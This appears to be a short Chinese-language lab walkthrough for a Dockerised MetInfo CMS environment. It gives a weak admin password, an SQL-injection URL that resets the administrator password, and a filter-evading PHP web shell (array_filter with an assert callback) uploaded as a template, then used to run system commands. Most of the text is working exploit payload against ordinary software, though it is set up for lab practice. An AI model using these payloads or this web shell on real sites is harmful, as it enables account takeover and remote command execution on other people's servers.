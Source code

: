 ## 启动环境

```
docker-compose build
docker-compose up -d
```

## 后台登录
通过弱口令admin:123456进入http://127.0.0.1:8002/admin/login/login.php 后台，
或者是通过http://127.0.0.1:8002/include/hits.php?type=img&settings[met_img]=met_admin_table+SET+admin_introduction=admin_pass,admin_pass=md5(1)+WHERE+id=1%23 将密码重置为1
![](luffy3.png)

## 上传木马
Metinfo的后台可以通过上传模版的方式获得webshell,在界面风格->模版风格->添加新模板处
![](luffy.png)


但是后台对于一些危险的函数比如eval,asssert,system进行了过滤，所以需要一个特殊的木马
<?php
$e = $_REQUEST['e'];
$arr = array($_POST['pass'],);
array_filter($arr, $e);
?>
写到php文件里打包成zip，通过界面风格->添加新模版
然后通过访问http://10.0.0.9:8082/templates/trojan.php?e=assert post pass=system("ls");即可执行命令

![](luffy2.png)

